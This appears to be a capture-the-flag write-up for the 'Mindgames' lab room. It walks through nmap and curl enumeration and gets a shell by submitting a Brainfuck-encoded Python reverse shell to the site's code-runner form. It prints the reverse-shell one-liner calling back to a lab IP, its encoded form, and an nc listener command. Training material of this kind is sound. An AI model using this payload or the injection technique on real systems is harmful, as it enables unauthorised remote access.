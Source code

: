 # Mindgames write-up.
![room](https://user-images.githubusercontent.com/110361097/182584894-83f22081-1cbf-4aa8-afab-7ae39ffc5c1a.JPG)

HINT: No hints. Hack it. Don't give up if you get stuck, enumerate harder.

## Preparation:
Set the IP address as an environment variable in a terminal to make the process simple.

`export IP=10.10.242.185`

Access the IP variable with: $IP

## Reconnaissance:
Scan the IP address with nmap.

`nmap -A -Pn -sV -p- $IP -v -T 4`

**Result:**

![res-1](https://user-images.githubusercontent.com/110361097/182585019-1fcc6006-034d-4816-8ddb-53f77c7340b5.JPG)

So, we have ports 22 and 80 with services as ssh/web server.

## Enumeration:
Let's see what's on port 80's initial page.

`curl http://$IP -v`

**Result:**

![](/img/res-2.JPG)
![res-2](https://user-images.githubusercontent.com/110361097/182585173-f003d266-95f9-44e0-9990-8f3da077f2c8.JPG)


Possible Pivot Routes/Points Of Interest:

- /main.js
- /main.css

**Observations:**

We have references to:
* Programming
* Hello, World
* Fibonacci
* Code that contains ".-+[]<>"

This code looks familiar...

I'll assess the code sequence/pattern with a [cipher-identifier](https://www.dcode.fr/cipher-identifier)

The code has been identified as "Brainfuck".

**Info:**

Kind of makes sense since the room's name is mindgames...

We'll press on with decoding.

* Hello, World: `print("Hello, World")`
* Fibonacci:    `def F(n): if n <= 1 1: return f(n-1)+f(n-2) for i in range(10): print(f(i))`

Nothing looks interesting here. Just some standard code running on an interpreter.

Based on the initial webpage having a "Try before you buy" feature that took *trusted*
input from the user, we can assume this may be our first attack point as it would be a simple
web app using the Brainfuck code unfiltered/unsanitized as source-code input.

The code language that needs wrapping with Brainfuck is Python, this is assumed based on the "Hello, World" code that was decoded earlier.

We'll begin by generating a Python reverse shell over at: https://www.revshells.com, then encode it with Brainfuck at: https://www.splitbrain.org/_static/ook/. With this, we will try for a reverse shell first.

**The Setup:**

Python Reverse Shell: 

`import os,pty,socket;s=socket.socket();s.connect(("10.10.52.202",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")`

Brainfuck wrapped:

`	+++++ +++++ [->++ +++++ +++<] >++++ +.+++ +.+++ .-.++ +.++. <++++ +++++
            [->-- ----- --<]> ---.< +++++ +++[- >++++ ++++< ]>+++ +++++ +++++ ++.++
            ++.<+ +++++ ++[-> ----- ---<] >---- ---.< +++++ +++[- >++++ ++++< ]>+++
            +.+++ +.+++ ++.<+ +++++ ++[-> ----- ---<] >---- ----- ----. <++++ ++++[
            ->+++ +++++ <]>++ +++++ .---- .<+++ [->-- -<]>- --.++ +++++ +.--- ---.<
            +++[- >+++< ]>+++ +++.< +++++ ++[-> ----- --<]> ----- ---.< +++++ ++[->
            +++++ ++<]> +++++ ++.<+ +++++ +[->- ----- -<]>- ----. <++++ +++[- >++++
            +++<] >++++ +.--- -.<++ +[->- --<]> ---.+ +++++ ++.-- ----. <+++[ ->+++
            <]>++ ++++. <++++ ++++[ ->--- ----- <]>-- ----. <++++ ++++[ ->+++ +++++
            <]>++ +++.- ---.< +++[- >---< ]>--- .++++ ++++. ----- -.<++ +[->+ ++<]>
            +++++ +.<++ +++++ +[->- ----- --<]> ----- ----- --.+. <++++ [->++ ++<]>
            ++.<+ +++++ +[->+ +++++ +<]>+ +++++ +.<++ +++++ +[->- ----- --<]> -----
            .<+++ ++++[ ->+++ ++++< ]>+++ +.<++ +[->+ ++<]> +++.- ..--- ----- -.--.
            <++++ [->++ ++<]> +.<++ +++++ +[->- ----- --<]> ----- ----- --..- -----
            .<+++ [->++ +<]>+ +++++ .-.-- .+++. -.--. +++++ ++.-- -.--- -.+++ +.--.
            ++.<+ +++[- >---- <]>.< +++[- >+++< ]>+.+ +++++ ++... .<+++ [->-- -<]>-
            -..<+ +++[- >++++ <]>++ .<+++ ++[-> +++++ <]>++ +++++ .<+++ +[->+ +++<]
            >++++ .++++ .<+++ +++++ [->-- ----- -<]>- ----. <++++ +++[- >++++ +++<]
            >++++ +.<++ ++[-> ++++< ]>+.- ----. <++++ +++[- >---- ---<] >---- -----
            ----. <+++[ ->--- <]>-. <++++ ++++[ ->+++ +++++ <]>++ +++++ ++++. <++++
            ++++[ ->--- ----- <]>-- ---.< +++++ ++[-> +++++ ++<]> +++++ ++.++ +.+++
            .---- ---.+ +++++ +++.+ .<+++ +++++ [->-- ----- -<]>- ----- -.+.+ ++.<+
            +++++ +[->+ +++++ +<]>+ +++++ +++.< +++++ ++[-> ----- --<]> ----- -----
            --.<+ +++++ +[->+ +++++ +<]>+ +++++ +++++ +.+++ +++++ +.+++ .<+++ +++++
            +[->- ----- ---<] >-.<+ +++++ ++[-> +++++ +++<] >++++ ++.<+ +++++ ++[->
            ----- ---<] >---- --.<+ +++++ ++[-> +++++ +++<] >++++ +++++ .++++ +.<++
            +++++ +[->- ----- --<]> ----- -.+++ +++++ .---- .++++ +.--- --.++ ++++.
            ----- ----. <++++ +++[- >++++ +++<] >+++. <++++ +[->- ----< ]>--- -----
            -.<++ +++++ [->++ +++++ <]>++ ++.++ ++.++ +++.< +++++ +++[- >---- ----<
            ]>--- ----- ---.< +++++ +++[- >++++ ++++< ]>+++ ++.-- -.<++ +[->- --<]>
            ----- -.<++ ++[-> ++++< ]>+++ +++.- ----- ---.< +++++ +++[- >---- ----<
            ]>--- ---.- ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> +++++ ++<]> ++.++
            +++++ .++++ +.<++ +++++ [->-- ----- <]>-- ----- ----- --.<+ +++++ +[->+
            +++++ +<]>+ +.-.< ++++[ ->+++ +<]>+ +.<++ +[->- --<]> --.<+ +++++ ++[->
            ----- ---<] >---- --.++ +++++ .<`

rlwrap listner:

`rlwrap -cAr nc -lvnp 4444`

We need to have our listener running first, then submit the wrapped code into the
"Try before you buy" submission form. 

Now submit the encoded reverse shell in the submission form with your netcat listener running and you should get the shell pop.

**Result:**

![res-4](https://user-images.githubusercontent.com/110361097/182585214-43e76183-9f44-4388-a18c-5161b0fcd2ac.JPG)


We now have shell access! Let's look for the user.txt file.

Our initial directory path is "/home/mindgames/webserver", so goto the user's home "/home/mindgames". 

Perform a directory listing and find the "user.txt" file.

![res-5](https://user-images.githubusercontent.com/110361097/182585240-7594a3d0-bc4d-495c-a7bf-e5593d3fc568.JPG)


## Flag 1:

![flag1](https://user-images.githubusercontent.com/110361097/182585255-e6e3eee9-00da-4bc5-af83-8137b7f9296d.JPG)

## Privilege Escalation:

To be continued...

**Result:**
